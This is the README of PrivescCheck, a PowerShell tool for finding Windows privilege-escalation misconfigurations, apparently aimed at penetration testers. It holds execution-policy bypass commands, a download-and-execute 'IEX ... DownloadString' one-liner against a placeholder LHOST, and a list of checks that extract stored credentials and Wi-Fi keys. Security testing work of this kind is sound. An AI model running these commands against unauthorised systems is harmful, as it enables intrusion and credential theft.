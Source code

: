 # PrivescCheck

This script aims to __enumerate common Windows security misconfigurations__ which can be leveraged for privilege escalation and __gather various information__ which might be useful for __exploitation__ and/or __post-exploitation__.

I built on the amazing work done by [@harmj0y](https://twitter.com/harmj0y) and [@mattifestation](https://twitter.com/mattifestation) in [PowerUp](https://github.com/HarmJ0y/PowerUp). I added more checks and also tried to reduce the amount of false positives.

It's still a Work-in-Progress because there are a few more checks I want to implement but it's already quite complete. If you have any suggestion (improvements, features), feel free to contact me on Twitter [@itm4n](https://twitter.com/itm4n).


## Usage 

Use the script from a PowerShell prompt.
```
PS C:\Temp\> Set-ExecutionPolicy Bypass -Scope Process -Force 
PS C:\Temp\> . .\Invoke-PrivescCheck.ps1; Invoke-PrivescCheck 
```

Display output and write to a log file at the same time.
```
PS C:\Temp\> . .\Invoke-PrivescCheck.ps1; Invoke-PrivescCheck | Tee-Object "C:\Temp\result.txt"
```

Use the script from a CMD prompt.
```
C:\Temp\>powershell -ep bypass -c ". .\Invoke-PrivescCheck.ps1; Invoke-PrivescCheck | Tee-Object result.txt"
```

Import the script from a web server.
```
C:\Temp\>powershell "IEX (New-Object Net.WebClient).DownloadString('http://LHOST:LPORT/Invoke-PrivescCheck.ps1'); Invoke-PrivescCheck" 
```


## Yet another Windows Privilege escalation tool, why?

I really like [PowerUp](https://github.com/HarmJ0y/PowerUp) because it can enumerate common vulnerabilities very quickly and without using any third-party tools. The problem is that it hasn't been updated for several years now. The other issue I spotted quite a few times over the years is that it sometimes returns false positives which are quite confusing.

Other tools exist on GitHub but they are __not as complete__ or they have __too many dependencies__. For example, they rely on WMI calls or other command outputs.

Therefore, I decided to make my own script with the following constraints in mind:

- __It must not use third-party tools__ such as `accesschk.exe` from SysInternals.

- __It must not use built-in Windows commands__ such as `whoami.exe` or `netstat.exe`. The reason for this is that I want my script to be able to run in environments where AppLocker (or any other Application Whitelisting solution) is enforced.

- __It must not use built-in Windows tools__ such as `sc.exe` or `tasklist.exe` because you'll often get an __Access denied__ error if you try to use them on __Windows Server 2016/2019__ for instance.

- __It must not use WMI__ because its usage can be restricted to admin-only users.

- Last but not least, it must be compatible with __PowerShell Version 2__. 


## Addressing all the constraints...

- __Third-party tools__

I have no merit, I reused some of the code made by [@harmj0y](https://twitter.com/harmj0y) and [@mattifestation](https://twitter.com/mattifestation). Indeed, PowerUp has a very powerfull function called `Get-ModifiablePath` which checks the ACL of a given file path to see if the current user has write permissions on the file or folder. I modified this function a bit to avoid some false positives though. Before that a service command line argument such as `/svc`could be identified as a vulnerable path because it was interpreted as `C:\svc`. My other contribution is that I made a _registry-compatible_ version of this function (`Get-ModifiableRegistryPath`).

- __Windows built-in windows commands/tools__

When possible, I naturally replaced them with built-in PowerShell commands such as `Get-Process`. In other cases, such as `netstat.exe`, you won't get as much information as you would with basic PowerShell commands. For example, with PowerShell, TCP/UDP listeners can easily be listed but there is no easy way to get the associated Process ID. In this case, I had to invoke Windows API functions.

- __WMI__

You can get a looooot of information through WMI, that's great! But, if you face a properly hardened machine, the access to this interface will be restricted. So, I had to find workarounds. And here comes the __Registry__! Common checks are based on some registry keys but it has a lot more to offer. The best example is services. You can get all the information you need about every single service (except their current state obviously) simply by browsing the registry. This is a huge advantage compared to `sc.exe` or `Get-Service` which depend on the access to the __Service Control Manager__. 

- __PowerShellv2 support__

This wasn't that easy because newer version of PowerShell have very convenient functions or options. For example, the `Get-LocalGroup`function doesn't exist and `Get-ChildItem` doesn't have the `-Depth` option in PowerShellv2. So, you have to work your way around each one of these small but time-consuming issues. 


## Features 

### Current User 

```
Invoke-UserCheck - Gets the usernane and SID of the current user
Invoke-UserGroupsCheck - Enumerates groups the current user belongs to except default and low-privileged ones
Invoke-UserPrivilegesCheck - Enumerates the high potential privileges of the current user's token
Invoke-UserEnvCheck - Checks for sensitive data in environment variables
```

### Services

```
Invoke-InstalledServicesCheck - Enumerates non-default services
Invoke-ServicesPermissionsCheck - Enumerates the services the current user can modify through the service control manager
Invoke-ServicesPermissionsRegistryCheck - Enumerates services that can be modified by the current user in the registry
Invoke-ServicesImagePermissionsCheck - Enumerates all the services that have a modifiable binary (or argument)
Invoke-ServicesUnquotedPathCheck - Enumerates services with an unquoted path that can be exploited
```

### Dll Hijacking

```
Invoke-DllHijackingCheck - Checks whether any of the system path folders is modifiable
Invoke-HijackableDllsCheck - Lists hijackable DLLs depending on the version of the OS
```

### Programs

```
Invoke-InstalledProgramsCheck - Enumerates the applications that are not installed by default
Invoke-ModifiableProgramsCheck - Enumerates applications which have a modifiable EXE of DLL file
Invoke-ApplicationsOnStartupCheck - Enumerates the applications which are run on startup
Invoke-RunningProcessCheck - Enumerates the running processes
Invoke-ScheduledTasksCheck - Enumrates scheduled tasks with a modifiable path
```

### Credentials

```
Invoke-SamBackupFilesCheck - Checks common locations for the SAM/SYSTEM backup files
Invoke-UnattendFilesCheck - Enumerates Unattend files and extracts credentials 
Invoke-WinlogonCheck - Checks credentials stored in the Winlogon registry key
Invoke-CredentialFilesCheck - Lists the Credential files that are stored in the current user AppData folders
Invoke-VaultCredCheck - Enumerates credentials saved in the Credential Manager
Invoke-VaultListCheck - Enumerates web credentials saved in the Credential Manager
Invoke-GPPPasswordCheck - Lists Group Policy Preferences (GPP) containing a non-empty "cpassword" field
```

### Registry

```
Invoke-UacCheck - Checks whether UAC (User Access Control) is enabled
Invoke-LapsCheck - Checks whether LAPS (Local Admin Password Solution) is enabled
Invoke-PowershellTranscriptionCheck - Checks whether PowerShell Transcription is configured/enabled
Invoke-RegistryAlwaysInstallElevatedCheck - Checks whether the AlwaysInstallElevated key is set in the registry
Invoke-LsaProtectionsCheck - Checks whether LSASS is running as a Protected Process (+ additional checks)
Invoke-WsusConfigCheck - Checks whether the WSUS is enabled and vulnerable (Wsuxploit)
```

### Network

```
Invoke-TcpEndpointsCheck - Enumerates unusual TCP endpoints on the local machine (IPv4 and IPv6)
Invoke-UdpEndpointsCheck - Enumerates unusual UDP endpoints on the local machine (IPv4 and IPv6)
Invoke-WlanProfilesCheck - Enumerates the saved Wifi profiles and extract the cleartext key/passphrase when applicable
```

### Misc

```
Invoke-WindowsUpdateCheck - Checks the last update time of the machine
Invoke-SystemInfoCheck - Gets the name of the operating system and the full version string
Invoke-LocalAdminGroupCheck - Enumerates the members of the default local admin group
Invoke-UsersHomeFolderCheck - Enumerates the local user home folders
Invoke-MachineRoleCheck - Gets the role of the machine (workstation, server, domain controller)
Invoke-SystemStartupHistoryCheck - Gets a list of system startup events 
Invoke-SystemStartupCheck - Gets the last system startup time
Invoke-SystemDrivesCheck - Gets a list of local drives and network shares that are currently mapped
```

